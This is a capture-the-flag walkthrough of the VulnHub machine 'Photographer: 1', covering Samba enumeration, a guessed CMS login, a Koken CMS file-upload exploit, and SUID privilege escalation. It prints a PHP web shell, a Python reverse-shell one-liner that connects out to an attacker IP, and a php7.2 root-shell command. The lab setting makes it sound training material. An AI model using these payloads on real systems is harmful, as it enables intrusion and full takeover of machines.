# Photographer: 1 Writeup, Walkthrough
https://www.vulnhub.com/entry/photographer-1,519/

## First, I have to get the IP address of the box

-       sudo netdiscover -t eth1
    - IP address = 192.168.190.148

## Enumeration 
- I run a nmap scan to see what ports are open and what services are running.
    -       nmap -sC -sV -oN nmap.txt 192.168.190.149
    - Open ports
        - 80 HTTP - Apache httpd 2.4.18
        - 8000 HTTP - Apache httpd 2.4.38
        - 139 netbios-ssn - Samba 
        - 445 netbios-ssn - Samba
        - 

- Using smbclient I can see the shares on the Samba server without a password. 
    -     smbclient -L //192.168.190.148/
    - 
    - The folder named sambashare looks interesting, let's see what's in there.
- Once again, using smbclient I can see what's in the sambashare folder without a password.
    - There are two files in there, I can download then using `get [filename]` command
    - 
- Inside the mailsent.txt file, I found 2 emails that might be useful. 
    -     Agi Clarence <agi@photographer.com>
          Daisa Ahomi <daisa@photographer.com> 


- #### Enumerating the webpages.
- The page on port 80 is a standard webpage with a lot of images. I read the page source and there isn't anything helpful in there. 
 - I ran a gobuster scan using `directory-list-2.3-medium.txt`  wordlist. Few directory were found but nothing that will help me gain a foothold into the server.
    - 
- Then I move onto the page on port 8000
    - The webpage is using Koken CMS which is vulnerable to Arbitrary File Upload but I have to authenticated
    - Trying /admin brings me to a log in page that askes for email and password. Luckily we have 2 to try.
    -  
- Looking back at the mailsent.txt, the email mentions a secret, `my babygirl`
    - 
- After several attempts, I got a successful login with daisa@photographer.com:babygirl

- Googling `koken cms exploit` led me to Exploit-DB that shows how to upload an image file with hidden php code to execute command.
    - https://www.exploit-db.com/exploits/48706

- ### Steps to exploit
    - Create a malicious PHP file with this content:<br />
    ```<?php system($_GET['cmd']);?>```
    - Save as "image.php.jpg"
    - Authenticated, go to Koken CMS Dashboard, upload your file on "Import Content" button (Library panel) and send the HTTP request to Burp.
    - On Burp, rename your file to "image.php", then forward the request.
    - 
    - There should now be a image.php file under content.
    - To execute commands, head over to /content and click on the image file. Then click download, which takes me to the full path of the file. From there I can type my commands into the url. A simple `whoami` comes back as www-data.
        - 
- Now that I can exexute commands, I can send myself a reverse shell using python
    - Put the command after cmd= in `http://192.168.190.148:8000/storage/originals/44/31/image.php?cmd=`

    -     export RHOST="192.168.190.143";export RPORT=4242;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'

    
- To catch the revers shell, I setup a listener using `nc -lnvp 4242` on my machine 
- aaaand we have a shell as www-data
    - To upgrade the shell I used <br />
        -     python -c 'import pty;pty.spawn("/bin/bash")'

    - 


## Privilege Escalation

- `sudo -l` requires  a password so no luck there.
- The user.txt is in /home/daisa/user.txt
- There is a .bash_history file in /home/agi but no read permission.

- Checking for SUID binaries
    -     find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
- 
- /usr/bin/php7.2 looks interesting
- upon checking [gtfobins](https://gtfobins.github.io/gtfobins/php/#suid), it looks like php can be abused to spawn a root shell.
    - 
- Running this command should give me a root shell.
-     /usr/bin/php7.2 -r "pcntl_exec('/bin/sh', ['-p']);"

- 
- Now I can read proof.txt in /root


### bada bing bada boom .... I have rooted Photographer: 1

